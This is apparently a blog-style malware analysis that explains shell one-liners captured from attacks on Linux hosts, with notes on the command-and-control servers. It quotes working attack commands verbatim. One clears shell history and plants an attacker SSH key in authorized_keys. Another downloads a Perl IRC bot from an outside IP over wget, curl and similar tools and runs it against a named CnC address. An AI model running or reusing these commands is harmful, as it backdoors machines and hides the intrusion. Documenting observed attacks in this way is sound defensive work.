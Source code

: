 ```yaml
---
title: Malware Shell Oneliners
published: true
description: Several command oneliner tricks used by malware.
---
```


# Command line tricks used by malware.

## 1. Processor cores
```bash
cat /proc/cpuinfo | grep name | wc -l
```
I found this oneliner actually cool, it prints the number of processor cores you have. 

## 2. Cleaning history and backdooring device
```bash
uname -a;
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG WATCH;
history -n;
export HISTFILE=/dev/null;
export HISTSIZE=0;
export HISTFILESIZE=0;
cd;
mkdir .ssh;
rm -rf .ssh/authorized_keys;
touch .ssh/authorized_keys;
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAvN5GkpS25Z9eA2bARaXTVfVN2m/N5V5ddOTyVPftA3ljorQitmh1pyuZDty9oTWF+J0cOtGBvRaQ7NvZCaDC2q6QR0iMOfq7zs+4bl8WO8UnaQcVVIBeEt3YPo8PXwVm5fR4wgoq9SZp29/2jFz0UmAOhiUyImh9/P7jFWqpv3gSxZ8neq+4pSCUfE24OGiFBpJGkAE+wMmJcBX0WjFfjedcbBs1FO/C+x8WY9bFkQ3NwwjVbh3c3mYy9zqdPhm6GI/heVAZUWSKHausOwb+Rem+eKhkrKvoeteqJXEIrlLbHyRHn+12nN/qgG5kIcICv4TRD59GHMYZH3ILngyFJQ==' >> .ssh/authorized_keys;cd
```

This code blob actually was one long line, it does several things:
* Checks operating system
* Clears and disables shell history
* Clears old ssh public keys and pushes his own

### 3. Fingerprinting a system
```bash
1) uname -n -s -r -v;         # Full name in specific order 
2) uname -a & lscpu;          # Prints full name and proc information. 
                              # Symbol '&' forces first command to migrate to another 
                              # process which purpose is unclear to me, might be a bug.
3) uname -snrvo; uptime -p;   # Full name in specific order and time since system start
4) uname -a ; lscpu;          # Prints full name of OS including kernel version
5) uname;                     # Prints you the name of OS (ex: Linux)
6) cat /proc/cpuinfo;         # Info about processor 
7) free -m;                   # How much free disk space is left
```

### 4. Removing other potential malware and install his own
```bash
killall -9 perl;
cd /var/tmp/ ; 
cd /tmp/ ; 
rm -rf ssh1.txt ; 

wget http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt wget.txt ; 

perl wget.txt 193.169.254.11; 
lwp-download http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt lynx.txt ; 
perl lynx.txt 193.169.254.11;
fetch http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt fetch.txt ; 
perl fetch.txt 193.169.254.11; 
curl -O http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt curl.txt ; 
perl curl.txt 193.169.254.11 ; 
rm -rf ssh1.txt wget.txt lynx.txt fetch.txt curl.txt
```
This oneliner tries to download and later run perl bot in several methods using wget, lwp-download, fetch, curl.
Then connects to CnC server which is located in 193.169.254.11.



### 5. Command and control servers
```
185.234.217.21:
  Server location: Ireland
  Hosting:
    ssh1.txt - main perl IRC bot script
    Polish google phishing page
  Nmap scan:
    21/tcp   open     ftp
    22/tcp   open     ssh
    80/tcp   open     http
    1723/tcp filtered pptp
```

```
 193.169.254.11:
    Server location: Poland
    Hosting:
      Several IRC servers for botnet CnC
    Nmap scan:
      22/tcp    open     ssh
      80/tcp    open     http
      81/tcp    open     hosts2-ns
      111/tcp   open     rpcbind
      143/tcp   open     imap
      443/tcp   open     https
      1723/tcp  filtered pptp
      2222/tcp  open     EtherNetIP-1
      6667/tcp  open     irc
      8080/tcp  open     http-proxy
      8443/tcp  open     https-alt
      10000/tcp open     snet-sensor-mgmt
```
